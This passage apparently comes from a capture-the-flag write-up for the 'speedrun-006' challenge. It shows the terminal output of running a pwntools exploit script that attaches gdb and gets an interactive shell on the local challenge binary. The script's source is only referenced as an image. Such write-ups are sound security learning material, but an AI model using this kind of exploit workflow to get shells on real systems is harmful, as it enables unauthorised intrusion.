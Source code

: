 When we run it:
```
$	python exploit.py 
[!] Could not find executable 'speedrun-006' in $PATH, using './speedrun-006' instead
[+] Starting local process './speedrun-006': pid 20456
[*] running in new terminal: /usr/bin/gdb -q  "./speedrun-006" 20456 -x "/tmp/pwn3JBtZ9.gdb"
[+] Waiting for debugger: Done

[*] Switching to interactive mode
How good are you around the corners?
Send me your ride
$ w
 03:06:29 up  7:36,  1 user,  load average: 2.08, 1.96, 1.73
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               19:29   ?xdm?  33:36   0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
```
